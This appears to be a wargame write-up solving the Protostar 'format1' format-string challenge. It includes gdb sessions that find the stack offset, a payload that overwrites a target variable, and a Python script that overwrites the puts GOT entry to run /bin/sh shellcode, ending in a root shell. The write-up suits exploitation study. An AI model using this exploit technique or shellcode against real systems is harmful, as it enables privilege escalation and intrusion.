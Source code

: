 # format1

## solution
First we need to find the offset to the start of our input.
```
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:	push   %ebp
0x080483f5 <vuln+1>:	mov    %esp,%ebp
0x080483f7 <vuln+3>:	sub    $0x18,%esp
0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
0x080483fd <vuln+9>:	mov    %eax,(%esp)
0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:	mov    0x8049638,%eax
0x0804840a <vuln+22>:	test   %eax,%eax
0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:	leave  
0x0804841b <vuln+39>:	ret    
End of assembler dump.
(gdb) b *0x08048400
Breakpoint 1 at 0x8048400: file format1/format1.c, line 10.
(gdb) r AAAA
Starting program: /opt/protostar/bin/format1 AAAA

Breakpoint 1, 0x08048400 in vuln (string=0xbffff981 "AAAA") at format1/format1.c:10
10	format1/format1.c: No such file or directory.
	in format1/format1.c
(gdb) x/x $esp
0xbffff760:	0xbffff981
(gdb) x/s 0xbffff981
0xbffff981:	 "AAAA"
(gdb) p (0xbffff981 - 0xbffff760) / 4
$2 = 136
(gdb) r 'AAAA%135$x'
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/format1 'AAAA%135$x'

Breakpoint 1, 0x08048400 in vuln (string=0xbffff97b "AAAA%135$x") at format1/format1.c:10
10	in format1/format1.c
(gdb) x/x $esp
0xbffff760:	0xbffff97b
```

```
>>> a = 0xbffff97b - 0xbffff760
>>> a/4
134
>>> a%4
3
```

So our offset is at 134 words and 3 bytes (where a word is 4 bytes).

Next we need to find the address of the 'target' variable, so we can modify it.
```
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:	push   %ebp
0x080483f5 <vuln+1>:	mov    %esp,%ebp
0x080483f7 <vuln+3>:	sub    $0x18,%esp
0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
0x080483fd <vuln+9>:	mov    %eax,(%esp)
0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:	mov    0x8049638,%eax
0x0804840a <vuln+22>:	test   %eax,%eax
0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:	leave  
0x0804841b <vuln+39>:	ret
```

It's pretty clear that `0x8049638` is our target, from the disassembly of the vuln function.

So next we need to craft an input that writes the data we want to the address we specify - in this
case, modifying the data at our target address to anything other than zero. Since we don't
actually have to get it to a specific value, we can just craft a payload that looks like the
following.
```
\x38\x96\x04\x08AAA%134$n <- write
^               ^   ^ offset of 135 words
target          extra bytes
```

```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c 'print "\x38\x96\x04\x08%129$n"') && echo
8you have modified the target :)
user@protostar:/opt/protostar/bin$ 
```

## Shell
```
(gdb) r $(python -c 'print "AAAABBBBC%136$x%137$x"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/format1 $(python -c 'print "AAAABBBBC%136$x%137$x"')

Breakpoint 1, 0x08048400 in vuln (string=0xbffff970 "AAAABBBBC%136$x%137$x") at format1/format1.c:10
10	in format1/format1.c
(gdb) c
Continuing.
AAAABBBBC4141414142424242
```

```
user@protostar:/opt/protostar/bin$ objdump -R ./format1

./format1:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049608 R_386_GLOB_DAT    __gmon_start__
08049618 R_386_JUMP_SLOT   __gmon_start__
0804961c R_386_JUMP_SLOT   __libc_start_main
08049620 R_386_JUMP_SLOT   printf
08049624 R_386_JUMP_SLOT   puts
```

```py
import struct

target = struct.pack('I', 0x8049638)

tar_p1 = struct.pack('I', 0x08049624)
tar_p2 = struct.pack('I', 0x08049624 + 0x2)

nop = '\x90' * 0x80

buf = '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

payload = target + tar_p1 + tar_p2

payload += 'AAA'
payload += '%10d' + '%129$n'
payload += '%63797d' + '%130$n'  
payload += '%50865d' + '%131$n'

print payload + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./format1 $(python /tmp/pwn.py)

...

# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
